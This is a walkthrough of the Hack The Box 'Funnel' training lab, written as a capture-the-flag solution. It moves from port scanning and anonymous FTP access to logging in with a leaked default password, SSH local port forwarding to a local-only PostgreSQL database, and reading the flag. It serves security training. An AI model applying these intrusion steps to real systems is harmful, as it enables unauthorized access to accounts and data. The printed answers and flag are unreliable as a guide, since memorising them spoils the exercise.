

# HTB Starting Point - Tier1 - Funnel 
### How many TCP ports are open?
  `nmap -sT -p- -T5 <target-ip>`  
  PORT   STATE SERVICE  
  21/tcp open  ftp  
  22/tcp open  ssh  
> 2

### What is the name of the directory that is available on the FTP server?
  `ftp anonymous@<target_ip>`  
  Connected to 10.129.181.13.  
  220 (vsFTPd 3.0.3)  
  331 Please specify the password.  
  Password:   
  230 Login successful.  
  Remote system type is UNIX.  
  Using binary mode to transfer files.  
  ftp> `ls`  
  229 Entering Extended Passive Mode (|||27618|)  
  150 Here comes the directory listing.
> drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

  226 Directory send OK.    
  ftp> `cd mail_backup`  
  250 Directory successfully changed.  
  ftp> `ls`  
  229 Entering Extended Passive Mode (|||35323|)
  150 Here comes the directory listing.
> -rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf  
> -rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022

  226 Directory send OK.
  ftp> `mget password_policy.pdf welcome_28112022` // to download  

# What is the default account password that every new member on the "Funnel" team should change as soon as possible?

password_policy.pdf:

> funnel123#!#

# Which user has not changed their default password yet?

welcome_28112022: 

Frome: root@funnel.htb  
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb  
Subject:Welcome to the team!  

Hello everyone,  
We would like to welcome you to our team.   
We think you’ll be a great asset to the "Funnel" team and want to make sure you get settled in as smoothly as   possible.  
We have set up your accounts that you will need to access our internal infrastracture. Please, read through the   attached password policy with extreme care.  
All the steps mentioned there should be completed as soon as possible. If you have any questions or concerns   feel free to reach directly to your manager.   
We hope that you will have an amazing time with us,  
The funnel team.   

`ftp christine@<target_ip>` 

331 Please specify the password.  
Password:   
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> `ls`
229 Entering Extended Passive Mode (|||11719|)
150 Here comes the directory listing.
226 Directory send OK.

`ssh christine@<target_ip>`

christine@funnel:~$ `ss -tl`  
State      Recv-Q      Send-Q      Local Address:Port      Peer Address:Port      Process  
LISTEN      0          4096         127.0.0.1:39181            0.0.0.0:*  
LISTEN      0          4096         127.0.0.53%lo:domain       0.0.0.0:*  
LISTEN      0          128          0.0.0.0:ssh                0.0.0.0:*  
LISTEN      0          4096         127.0.0.1:postgresql       0.0.0.0:*  
LISTEN      0          32           *:ftp                      *:*  
LISTEN      0          128          [::]:ssh                   [::]:*  

> postgresql

SSH TUNNELING EXPLANATION

The SSH protocol is vastly used for maintaining and accessing remote systems in a secure and encrypted way.  
But, it also offers the possibility to create tunnels that operate over the SSH protocol. More specifically, SSH offers various types of tunnels.  

The first type of tunneling we are going to take a look is called Local port forwarding. When local port forwarding is used, a separate tunnel is created inside the existing valid SSH session that forwards network traffic from a local port on the client's machine over to the remote server's port. Under the hood, SSH allocates a socket listener on the client on the given port. When a  connection is made to this port, the connection is forwarded over the existing SSH session over to the remote server's port.  

The second type of tunneling is called Remote port forwarding , also known as Reverse Tunneling and as one can imagine it is exactly the opposite operation of a Local port forwarding tunnel . Again, after a successful SSH connection, a separate tunnel is created which SSH uses to redirect incoming traffic to the server's port back to the client. Internally, SSH allocates a socket listener on the server on the given port.  
When a connection is made to this port, the connection is forwarded over the existing SSH session over to the local client's port.  

The third type of tunneling is called Dynamic port forwarding . The main issue with both local and remote forwarding is that a local and a remote port have to be defined prior to the creation of the tunnel. To address this issue, one can use dynamic tunneling . Dynamic tunneling, allows the users to specify just one port that will forward the incoming traffic from the client to the server dynamically. The usage of dynamic tunneling relies upon the SOCKS5 protocol.  

# Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?  

`ssh -L 1234:localhost:5432 christine@<target_ip>`  
`psql -U christine -h localhost -p 1234`  
  Password for user christine:   
  psql (17.6 (Debian 17.6-1), server 15.1 (Debian 15.1-1.pgdg110+1))  
  Type "help" for help.  
  christine=#   

> local port forwarding

# What is the name of the database that holds the flag?

christine-# `\l`   
                                                      List of databases
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | Locale | ICU Rules |    Access privileges       
-----------+-----------+----------+-----------------+------------+------------+--------+-----------+-------------------------  
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |   
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |   
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |   
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/christine           +  
           |           |          |                 |            |            |        |           | christine=CTc/christine  
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/christine           +  
           |           |          |                 |            |            |        |           | christine=CTc/christine  
  
christine-# `\c secrets`  
psql (17.6 (Debian 17.6-1), server 15.1 (Debian 15.1-1.pgdg110+1))  
You are now connected to database "secrets" as user "christine".  
secrets-# 

> secrets

# Could you use a dynamic tunnel instead of local port forwarding? Yes or No.
> Yes through proxychanis setting the proxy: socks5 127.0.0.1 1234 and using the following command: `proxychains psql -U christine -h localhost -p 5432`

# Submit root flag

secrets=# `SELECT * from flag;`
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1
(1 row)

